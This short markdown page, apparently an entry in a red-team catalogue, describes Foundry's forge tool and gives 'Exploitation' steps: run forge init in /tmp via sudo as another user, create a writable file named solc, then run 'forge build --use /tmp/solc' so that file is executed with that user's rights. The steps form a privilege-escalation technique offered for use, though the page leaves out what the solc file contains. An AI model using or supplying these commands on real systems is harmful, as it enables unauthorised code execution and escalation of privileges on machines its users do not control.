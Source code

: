 #Red-Team #Exploit #function #Generation #Payload #script 

## What is Forge
#### This program is a set of tools to build, test, fuzz, debug and deploy Solidity smart contracts.


## Exploitation: 

### `sudo -u <USER> /usr/bin/forge init /tmp/exploit --no-git --offline`

### Create a file named **solc** and give **+w** permissions with **chmod**

### `sudo -u <USER> /usr/bin/forge build --use /tmp/solc`
